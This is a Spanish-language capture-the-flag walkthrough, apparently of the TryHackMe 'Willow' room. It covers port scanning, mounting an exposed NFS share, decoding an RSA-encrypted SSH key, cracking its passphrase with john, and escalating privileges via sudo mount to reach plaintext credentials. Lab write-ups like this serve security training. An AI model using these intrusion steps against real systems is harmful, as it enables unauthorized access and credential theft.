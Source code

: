 <img src="https://github.com/user-attachments/assets/6427dd2f-8751-48c8-9e79-1a8429d74588"  height=155 width=155>


<h1> Willow </h1>

```
udo nmap -sCV -T4 --min-rate 4000 -p- 10.10.7.8

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-16 10:02 BST
Nmap scan report for ip-10-10-7-8.eu-west-1.compute.internal (10.10.7.8)
Host is up (0.00087s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 43:b0:87:cd:e5:54:09:b1:c1:1e:78:65:d9:78:5e:1e (DSA)
|   2048 c2:65:91:c8:38:c9:cc:c7:f9:09:20:61:e5:54:bd:cf (RSA)
|   256 bf:3e:4b:3d:78:b6:79:41:f4:7d:90:63:5e:fb:2a:40 (ECDSA)
|_  256 2c:c8:87:4a:d8:f6:4c:c3:03:8d:4c:09:22:83:66:64 (EdDSA)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Recovery Page
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      45528/udp  mountd
|   100005  1,2,3      57754/tcp  mountd
|   100021  1,3,4      40524/udp  nlockmgr
|   100021  1,3,4      57168/tcp  nlockmgr
|   100024  1          39072/udp  status
|   100024  1          54480/tcp  status
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
2049/tcp open  nfs_acl 2-3 (RPC #100227)
MAC Address: 02:3E:43:0F:ED:FB (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.62 seconds
```

- Puerto 22
- Puerto 80
- Puerto 111
- Puerto 2049

```
showmount ip
mount -t nfs 10.10.7.8:/var/failsafe new -o nolock
```
```
cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627
```

En la web encontramos un ponto de numeros 

![image](https://github.com/user-attachments/assets/771a338a-e673-4ffe-866e-5407a79b9ee2)

Si pasamos lo que encontramos por cyberchief nos da una pequeña pista y parece ser un nombre @Willow

![image](https://github.com/user-attachments/assets/6983f7d5-ee3d-41df-b69d-d209020b7659)

Como anteriormente hemos sacado el par de llaver podemos definir el numero

## Desencripttación

Ahora que sabemos el nombre del archivo "rsa_keys" podemos desencriptar el mensaje (nos dan un hint)

Vamos a coger el programita de python

```
import argparse

parser = argparse.ArgumentParser(description="Decode RSA")
parser.add_argument("file", help="The file containing the encrypted text")
parser.add_argument("d", help="The Private Key", type=int)
parser.add_argument("n", help="The Modulus", type=int)
args=parser.parse_args()

with open(args.file, "r") as coded:
    data = [int(i.strip("\n")) for i in coded.read().split(" ")]

for i in data:
    print(chr(i**args.d % args.n), end="")
```

Lo primero que vemos es la importación del modulo "argarpe" especificando los argumentos que posteirormente utilizaremos.

Simplemente cogemos los numeros que la private key nos ha dado y lo pasamos por el programa

```
python3 decoder.py code.txt 61527 37627 > rsakey
```

![image](https://github.com/user-attachments/assets/d06d7423-5690-433e-9b95-2b2c81a677a6)

Ahora que tenemos la llave necesitaremos al mismisimo john para que nos des hashe

![image](https://github.com/user-attachments/assets/d2cefa6e-0ac1-4d4b-ad2a-76cb70d87c62)

```
locate john
```

![image](https://github.com/user-attachments/assets/be44c0ce-5f2a-4870-87cc-ca8e5831553f)

```
chmod 600 rsakey
ssh -i rsakey willow@ip
```

Ponemos la pss y estamos dentro

Ya dentro vemos que hay un user.jpg doy por hecho que voy a tener que hacer un steghide o un exiftool

![image](https://github.com/user-attachments/assets/cc97f320-0c67-4e94-b2a0-931e205f7e2b)

Nos levantamos un python y lo cogemos o simplemente desde el ssh podemos tambien con scp

```
scp -i rsakey willow@ip:user.jpg
```

![image](https://github.com/user-attachments/assets/ef14c68f-38dd-4edb-a590-b294bfaf07f1)

Tenemos el THM pensaba que era con exiftool y demás pero ha sido mas fácil

# Escala de privilegios

Vaya 

![image](https://github.com/user-attachments/assets/dee484aa-ec75-48c5-b60e-a26d9e0af57f)

Parece ser que tenemos acceso a las montura a ver que hay

![image](https://github.com/user-attachments/assets/68ed1cba-86e4-4a2e-81cc-7dcf0eb2477c)

Y no tenemos permiso, pero creo que podemos hacer cosas chulas

Podemos ejecutar mount como ROot. Anteriormente usamos el comnado "mount" para acceder al NFS, pero como lo usamos con el ssh? no podemos utilizar "fdisk" y "lsblk"

Vemos que el disco esta montado en /dev 

![image](https://github.com/user-attachments/assets/87985f52-5654-4808-a20f-3ba116e219b9)

qUE CONVENIENTE VAMOS A MONTARLO Y VER

![image](https://github.com/user-attachments/assets/8058d292-0573-4ccd-bd28-3b04a46e8558)

Más fácil de lo que pensaba. Vamos a ver si se pueden sacar los hashes

Ah esperate que no estan ni hasheadas jajaja

![image](https://github.com/user-attachments/assets/6ee602c3-2ee3-4b05-8afd-60fc46bc9e15)

AJAJAJJAAJJA 

![image](https://github.com/user-attachments/assets/354f4117-61f4-4904-82b7-23e236ca0d89)

No era tan facil eh parece ser que nos han dicho que nos han dado la root flag antes y creo que es la imagen jaja

```
steghide extract -sf user.jpg
```
La contraseña es la contraseña del root

GG




